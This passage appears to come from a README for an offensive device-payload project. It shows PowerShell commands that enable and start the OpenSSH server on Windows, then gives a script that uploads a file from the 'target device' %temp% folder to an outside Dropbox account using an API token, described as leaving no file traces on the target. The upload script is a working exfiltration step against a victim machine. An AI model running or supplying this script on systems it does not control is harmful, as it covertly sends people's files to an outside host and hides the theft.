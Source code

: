   ```
  Get-WindowsCapability -Online | ? Name -like 'OpenSSH.Server*'

  Expected Output:
  Name : OpenSSH.Server~~~~0.0.1.0
  State : Installed
  ```

- Check the status of ssh-agent and sshd services using the PowerShell Get-Service command:

  ```
  Get-Service -Name *ssh*
  ```

- By default, both services are stopped. Run the following commands to start OpenSSH services:

  ```
  Start-Service sshd
  
  Set-Service -Name sshd -StartupType 'Manual'
  
  Start-Service ssh-agent
  
  Set-Service -Name ssh-agent -StartupType 'Manual'
  ```
  
This will run the SSH service until the device is shut down.

- Check if sshd service is running and listening on port TCP/22(default):

  ```
  netstat -nao | find /i '":22"'
  ```

- After ensuring ssh service is running, `scp` command can be used to send files/folders into the device from a remote machine using:

  ```
  scp /dir/file1 /dir/file2 remote_username@remote_IP /remote_dir/folder/
  ```

For an in depth explanation of the SSH service and installation/troubleshooting process refer to this [article](https://theitbros.com/ssh-into-windows/).

#### Upload via Dropbox API
- After verifying Internet Connection, files can be uploaded to Dropbox by using the Dropbox API token and including it in the script. This ensures no file traces exists in the target device. Below is a powershell script that uploads a specified file from the device's %temp% folder to Dropbox using its API.
  
  ```
  $TargetFilePath="/$FileName"
  $SourceFilePath="$env:TMP\$FileName"
  $arg = '{ "path": "' + $TargetFilePath + '", "mode": "add", "autorename": true, "mute": false }'
  $authorization = "Bearer " + $DropBoxAccessToken
  $headers = New-Object "System.Collections.Generic.Dictionary[[String],[String]]"
  $headers.Add("Authorization", $authorization)
  $headers.Add("Dropbox-API-Arg", $arg)
  $headers.Add("Content-Type", 'application/octet-stream')
  Invoke-RestMethod -Uri https://content.dropboxapi.com/2/files/upload -Method Post -InFile $SourceFilePath -Headers $headers
  ```
